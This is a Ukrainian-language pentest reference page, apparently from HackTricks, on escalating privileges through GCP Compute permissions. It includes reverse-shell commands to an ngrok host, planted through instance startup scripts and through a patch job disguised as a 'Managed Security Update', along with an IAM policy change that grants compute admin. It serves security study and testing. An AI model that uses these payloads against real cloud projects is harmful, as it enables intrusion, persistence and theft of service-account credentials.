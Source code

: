 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

Для отримання додаткової інформації про Compute та VPC (мережу) в GCP перегляньте:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> Зверніть увагу, що для виконання всіх атак підвищення привілеїв, які вимагають зміни метаданих екземпляра (наприклад, додавання нових користувачів та SSH-ключів), **необхідно, щоб у вас були права `actAs` на SA, прикріплену до екземпляра**, навіть якщо SA вже прикріплена!

### `compute.projects.setCommonInstanceMetadata`

З цим дозволом ви можете **змінювати** інформацію про **метадані** **екземпляра** та змінювати **авторизовані ключі користувача** або **створювати** **нового користувача з правами sudo**. Таким чином, ви зможете виконати SSH в будь-який екземпляр VM і вкрасти GCP Service Account, з яким працює екземпляр.\
Обмеження:

- Зверніть увагу, що GCP Service Accounts, які працюють в екземплярах VM за замовчуванням, мають **дуже обмежений обсяг**
- Вам потрібно буде **мати можливість зв'язатися з сервером SSH** для входу

Для отримання додаткової інформації про те, як експлуатувати цей дозвіл, перегляньте:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

Ви також можете виконати цю атаку, додавши новий стартовий скрипт і перезавантаживши екземпляр:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ця дозволяє надає **ті ж привілеї, що й попередній дозвіл**, але для конкретних екземплярів, а не для всього проекту. **Ті ж експлойти та обмеження, що й для попереднього розділу, застосовуються**.

### `compute.instances.setIamPolicy`

Цей тип дозволу дозволить вам **наділити себе роллю з попередніми дозволами** та ескалувати привілеї, зловживаючи ними. Ось приклад додавання `roles/compute.admin` до облікового запису служби:
```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
- serviceAccount:$SERVER_SERVICE_ACCOUNT
role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```
### **`compute.instances.osLogin`**

Якщо **OSLogin увімкнено в екземплярі**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до екземпляра. Ви **не матимете root привілеїв** всередині екземпляра.

> [!TIP]
> Щоб успішно увійти з цим дозволом всередині VM екземпляра, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплену до VM.

### **`compute.instances.osAdminLogin`**

Якщо **OSLogin увімкнено в екземплярі**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до екземпляра. Ви матимете **root привілеї** всередині екземпляра.

> [!TIP]
> Щоб успішно увійти з цим дозволом всередині VM екземпляра, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплену до VM.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Можливо **створити віртуальну машину з призначеним обліковим записом служби та вкрасти токен** облікового запису служби, отримуючи доступ до метаданих для ескалації привілеїв до нього.

Скрипт експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Якщо у вас є дозволи **`osconfig.patchDeployments.create`** або **`osconfig.patchJobs.exec`**, ви можете створити [**роботу з патчами або розгортання**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Це дозволить вам переміщатися в середовищі та отримати виконання коду на всіх обчислювальних екземплярах у проекті.

Зверніть увагу, що на даний момент вам **не потрібен дозвіл `actAs`** на SA, прикріплену до екземпляра.

Якщо ви хочете вручну експлуатувати це, вам потрібно створити або [**роботу з патчами**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **або** [**розгортання**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Для роботи з патчами виконайте:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
Щоб розгорнути патч-розгортання:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Інструмент [patchy](https://github.com/rek7/patchy) міг бути використаний у минулому для експлуатації цієї неконфігурації (але зараз він не працює).

**Зловмисник також може зловживати цим для постійності.**

### `compute.machineImages.setIamPolicy`

**Надайте собі додаткові дозволи** на образи обчислень.

### `compute.snapshots.setIamPolicy`

**Надайте собі додаткові дозволи** на знімок диска.

### `compute.disks.setIamPolicy`

**Надайте собі додаткові дозволи** на диск.

### Обхід доступу до обсягів

Слідуючи за цим посиланням, ви знайдете деякі [**ідеї для спроби обійти доступ до обсягів**](../).

### Локальне підвищення привілеїв у GCP Compute інстансі

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## Посилання

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}

